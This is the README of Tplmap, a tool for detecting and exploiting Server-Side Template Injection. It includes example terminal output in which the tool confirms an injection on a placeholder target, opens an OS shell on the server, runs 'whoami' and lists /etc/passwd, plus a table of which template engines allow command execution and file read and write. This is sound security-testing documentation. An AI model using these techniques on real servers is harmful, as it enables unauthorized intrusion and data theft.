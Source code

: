 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI).

This can be used by developers, penetration testers, and security researchers to detect and exploit vulnerabilities related to the template injection attacks.

The technique can be used to compromise web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

The modular approach allows any contributor to extend the support to other templating engines or introduce new exploitation techniques. The majority of the techniques currently implemented came from the amazing research done by [James Kett, PortSwigger][1].

Tplmap is able to detect and exploit rendered and blind SSTI and exploit injections in text and code contexts.

> The application is currently under heavy development and misses some functionalities.

Example
--------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=*' 
[+] Tplmap 0.1c
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Found placeholder in GET parameter 'inj'
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Freemarker plugin is testing blind injection
[+] Velocity plugin is testing rendering with tag '#set($c=*)\n${c}\n'
[+] Jade plugin is testing rendering with tag '\n= *\n'
[+] Jade plugin has confirmed injection with tag '\n= *\n'
[+] Tplmap identified the following injection point:

  Engine: Jade
  Injection: \n= *\n
  Context: text
  OS: darwin
  Technique: render
  Capabilities:
    Code evaluation: yes, javascript code
    OS command execution: yes
    File write: yes
    File read: yes

[+] Rerun tplmap providing one of the following options:
    --os-cmd or --os-shell to access the underlying operating system
    --upload LOCAL REMOTE to upload files to the server
    --download REMOTE LOCAL to download remote files
        
$ ./tplmap.py -u 'http://www.target.com/app?id=*' --os-shell
[+] Run commands on the operating system.
linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine    | Detection          | Command execution | Code evaluation | File read | File write |
|--------------------|--------------------|-------------------|-----------------|-----------|------------|
| Mako               |  render+blind      | yes               | python          | yes       | yes        |
| Jinja2             |  render+blind      | yes               | python          | yes       | yes        |
| Jade               |  render+blind      | yes               | javascript      | yes       | yes        |
| Smarty (unsecured) |  render+blind      | yes               | PHP             | yes       | yes        |
| Freemarker         |  render+blind      | yes               | no              | yes       | yes        |
| Velocity           |  render            | no                | no              | no        | no         |
| Twig               |  render            | no                | no              | no        | no         |
| Smarty (secured)   |  render            | no                | no              | no        | no         |


[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
